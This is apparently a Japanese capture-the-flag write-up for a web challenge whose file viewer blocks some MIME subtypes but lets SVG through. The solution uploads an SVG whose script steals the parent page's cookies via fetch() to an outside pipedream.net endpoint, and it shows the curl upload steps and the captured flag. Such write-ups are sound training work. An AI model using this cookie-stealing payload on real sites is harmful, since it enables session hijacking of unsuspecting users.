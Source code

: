 # frame:Advanced:200pts

- [Target](https://d2oljgvg90kjh.cloudfront.net/)  

**source code**  

- [Web Application](https://drive.google.com/file/d/1zVZ4NAug2bjTH-s_Kw08Qpq8xazp_QB_/view?usp=drive_link)  

※ If no announcement is made, all "Crawler" source codes are the same. (scenario1)  

[https://d2oljgvg90kjh.cloudfront.net/](https://d2oljgvg90kjh.cloudfront.net/)  

# Solution
URLとアプリケーションのソースが渡される。  
クローラは[Server Side Upload](../Server_Side_Upload)と同様なようだ。  
アクセスするとファイルアップロードサイトのようだが、いくつかの画像閲覧機能がある。  
![site.png](site/site.png)  
試しに一つ目の画像を見るとURLは`https://d2oljgvg90kjh.cloudfront.net/viewer/assets/azara.png`で、以下の通りだった。  
![image1.png](site/image1.png)  
ページのソースを見るとiframeで以下のようにblobとして埋め込まれていた。  
```html
~~~
<iframe src="blob:https://d2oljgvg90kjh.cloudfront.net/f71713ff-f103-4310-9dc0-d778cfbfdb32" style="width: 100%; height: 100%"></iframe>
~~~
```
アプリケーションのソースを見ると主要箇所は以下の通りであった。  
```ts
~~~
server.get('/viewer/*', async (request, reply) => {
  return reply.sendFile('viewer.html');
});

server.post<{
  Body: {
    contentType: string;
    length: number;
  };
}>('/api/upload', async (request, reply) => {
  if (!request.body.contentType || !request.body.length) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  if (request.body.length > 1024 * 1024 * 100) {
    return reply.code(400).send({ error: 'File too large' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    ContentLength: request.body.length,
    ContentType: request.body.contentType,
    ContentDisposition: 'attachment',
  });

  const url = await getSignedUrl(s3, command, {
    expiresIn: 60 * 60 * 24,
    signableHeaders: new Set(['content-type', 'content-disposition']),
  });
  return reply.header('content-type', 'application/json').send({
    url,
    filename,
  });
});
~~~
```
アップロードできる`contentType`に制限はないが、`ContentDisposition: 'attachment'`が設定されているため`text/html`でHTMLページ自体をアップロードしてのXSSは難しい。  
`viewer.html`は以下の通りであった。  
```html
<!doctype html>
<html>
  <head>
    <title>XS3 - scenario Advanced 1 - File Viewer</title>
    <script>
      const denyMimeSubTypes = ['html', 'javascript', 'xml', 'json', 'svg', 'xhtml', 'xsl'];

      const extractMimeType = (contentTypeAndParams) => {
        const [contentType, ...params] = contentTypeAndParams.split(';');
        console.log(`Extracting content type: ${contentType}`);
        console.log(`Extracting params: ${JSON.stringify(params)}`);
        const [type, subtype] = contentType.split('/');
        console.log(`Extracting type: ${type}`);
        console.log(`Extracting subtype: ${subtype}`);
        return { type, subtype, params };
      };

      const isDenyMimeSubType = (contentType) => {
        console.log(`Checking content type: ${contentType}`);
        const { subtype } = extractMimeType(contentType);
        return denyMimeSubTypes.includes(subtype.trim().toLowerCase());
      };

      window.onload = async () => {
        const url = new URL(window.location.href);
        const path = url.pathname.slice(1).split('/');
        path.shift();
        const key = path.join('/');
        console.log(`Loading file: /${key}`);

        const response = await fetch(`/${key}`);
        if (!response.ok) {
          console.error(`Failed to load file: /${key}`);
          document.body.innerHTML = '<h1>Failed to load file</h1>';
          return;
        }
        const contentType = response.headers.get('content-type');
        if (isDenyMimeSubType(contentType)) {
          console.error(`Failed to load file: /${key}`);
          document.body.innerHTML = '<h1>Failed to load file due to invalid content type</h1>';
          return;
        }
        const blobUrl = URL.createObjectURL(await response.blob());
        document.body.innerHTML = `<iframe src="${blobUrl}" style="width: 100%; height: 100%"></iframe>`;
      };
    </script>
  </head>
  <body></body>
</html>
```
`subtype`が`['html', 'javascript', 'xml', 'json', 'svg', 'xhtml', 'xsl']`でなければblobとしてiframeに設定している。  
何とかiframeでXSSできないかと考えていると、`image/svg+xml`で可能であったことを思い出す。  
これは`subtype`のチェックも通る。  
あとは`document.cookie`を読みだして外部へ送信すればいい。  
ところが、Firefoxでは順調にCookieの取得ができたが、クローラの`puppeteer`が用いるChromeでは取得できない。  
同一ドメインにSVGをアップローで可能なので、iframeの親の`parent.document.cookie`を送信すればよい。  
以下のようなSVGを用いる。  
```svg
<svg xmlns="http://www.w3.org/2000/svg">
    <script>
        fetch("https://enmz6ozs7du1q.x.pipedream.net/?satoki="+parent.document.cookie);
    </script>
</svg>
```
以下のとおり行う。  
```bash
$ curl -X POST -H 'Content-Type: application/json' -d '{"contentType":"image/svg+xml","length":166}' --upload-file xs3_parent.svg 'https://d2oljgvg90kjh.cloudfront.net/api/upload'
{"url":"https://uploadbucket-5b1bc63390-adv1-upload.s3.ap-northeast-1.amazonaws.com/upload/717e1cea-24d5-4367-bf9d-a91fa2207ba9?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4COWUMYXG%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T075735Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEND%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkYwRAIgeqMZW%2Fk69yTbQkBwriJXmw55Su2NkyOOKEHG%2FD7q8WQCIHjV6lhPNtQOf7rWy80CXqFpR80tEdWfsD%2FlwLaOrdmGKq0DCOn%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQARoMMzA4NTIxNDA3NzM2IgxjQ%2Fqx1AEV5sGdMscqgQM4HL9OTusIg4JOopA964z%2FNNsZg6cOfdlt%2BcRztX5RPPjknnC1mgEAEjRbu4ujLrx%2Bw%2BkXz%2B%2Ba89qMW%2B3x8pWIbAGtbB3iU1JVAzhv%2BRNSl0jG4SBIb%2FX%2Be0Vkq2mFA%2BlrTndw7Zmu0xLNZYuT6SL1BEbQx7sZkIfDr6DmjGLx9YAUqsWJc7HMLhT%2FKCM0c6kuC9qns8bF4KOAB1xegUaeZ%2BY6MRXmanrG%2FIkogzktj4WpgbtXJ5pufSPcVGaOYraKTRyra7PrXqgtEVJcwKdVjkJlaDJI3V9sBArQZZdvAb296hbeVoh207Ep%2FSR6HGUAHHSxiNnoDwjyE9BqAIP47dQS%2Bp%2BQiO2IV%2FAAbNIAa9ZGaCzMI3Hrl%2F4qs9FT4YunYY%2BkHw7AXTtX543hXO2v49tWFThpC7ejIuxUS0YvCBl7ii6m97m0wAbWoZ1D8zk1xxFUQEFnRf22kviySGZBsTV5IlL6FluVax3MYBxuxvdV%2FCNXjBAUFPv3CKEYBJMwMN%2FlmbAGOp4B7H8RM8pfXadst%2F9nFYetYXb3U6auFzodYqR7K3D%2FoE6kXuzf5W5w33BnnyCvgQcG7Nc3ZfWk3l31RcVHRguIsy79BkriqIoqyXa4zMxavXtrDR3LpBBT8hv0zjTkTDwW9b7cqjNTR5f9%2BV6QnwLYk4tlWQkZzqfMsOWQwC0yqiPDvwwT0OR8eSFZi9KUdxacvAMKiaNQlmQSEChvUpQ%3D&X-Amz-Signature=c0acb6067170c80aa179e9f1ca0ca542f9c1f0d519aa6ca6ba5177021076cca4&X-Amz-SignedHeaders=content-disposition%3Bcontent-length%3Bcontent-type%3Bhost&x-id=PutObject","filename":"717e1cea-24d5-4367-bf9d-a91fa2207ba9"}
$ curl -X PUT -H 'Content-Type: image/svg+xml' -H 'Content-Disposition: attachment' --upload-file xs3_parent.svg 'https://uploadbucket-5b1bc63390-adv1-upload.s3.ap-northeast-1.amazonaws.com/upload/717e1cea-24d5-4367-bf9d-a91fa2207ba9?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4COWUMYXG%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T075735Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEND%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkYwRAIgeqMZW%2Fk69yTbQkBwriJXmw55Su2NkyOOKEHG%2FD7q8WQCIHjV6lhPNtQOf7rWy80CXqFpR80tEdWfsD%2FlwLaOrdmGKq0DCOn%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQARoMMzA4NTIxNDA3NzM2IgxjQ%2Fqx1AEV5sGdMscqgQM4HL9OTusIg4JOopA964z%2FNNsZg6cOfdlt%2BcRztX5RPPjknnC1mgEAEjRbu4ujLrx%2Bw%2BkXz%2B%2Ba89qMW%2B3x8pWIbAGtbB3iU1JVAzhv%2BRNSl0jG4SBIb%2FX%2Be0Vkq2mFA%2BlrTndw7Zmu0xLNZYuT6SL1BEbQx7sZkIfDr6DmjGLx9YAUqsWJc7HMLhT%2FKCM0c6kuC9qns8bF4KOAB1xegUaeZ%2BY6MRXmanrG%2FIkogzktj4WpgbtXJ5pufSPcVGaOYraKTRyra7PrXqgtEVJcwKdVjkJlaDJI3V9sBArQZZdvAb296hbeVoh207Ep%2FSR6HGUAHHSxiNnoDwjyE9BqAIP47dQS%2Bp%2BQiO2IV%2FAAbNIAa9ZGaCzMI3Hrl%2F4qs9FT4YunYY%2BkHw7AXTtX543hXO2v49tWFThpC7ejIuxUS0YvCBl7ii6m97m0wAbWoZ1D8zk1xxFUQEFnRf22kviySGZBsTV5IlL6FluVax3MYBxuxvdV%2FCNXjBAUFPv3CKEYBJMwMN%2FlmbAGOp4B7H8RM8pfXadst%2F9nFYetYXb3U6auFzodYqR7K3D%2FoE6kXuzf5W5w33BnnyCvgQcG7Nc3ZfWk3l31RcVHRguIsy79BkriqIoqyXa4zMxavXtrDR3LpBBT8hv0zjTkTDwW9b7cqjNTR5f9%2BV6QnwLYk4tlWQkZzqfMsOWQwC0yqiPDvwwT0OR8eSFZi9KUdxacvAMKiaNQlmQSEChvUpQ%3D&X-Amz-Signature=c0acb6067170c80aa179e9f1ca0ca542f9c1f0d519aa6ca6ba5177021076cca4&X-Amz-SignedHeaders=content-disposition%3Bcontent-length%3Bcontent-type%3Bhost&x-id=PutObject'
$ curl https://d2oljgvg90kjh.cloudfront.net/upload/717e1cea-24d5-4367-bf9d-a91fa2207ba9
<svg xmlns="http://www.w3.org/2000/svg">
    <script>
        fetch("https://enmz6ozs7du1q.x.pipedream.net/?satoki="+parent.document.cookie);
    </script>
</svg>
```
アップロードに成功したら`https://d2oljgvg90kjh.cloudfront.net/viewer/upload/717e1cea-24d5-4367-bf9d-a91fa2207ba9`にアクセスすると、iframe経由で無事XSSが発生した。  
これをクローラへ投げると以下のリクエストが到着する。  
```
GET
/?satoki=flag=flag{d41d8cd98f00b204e9800998ecf8427e}
```
flagが得られた。  

## flag{d41d8cd98f00b204e9800998ecf8427e}
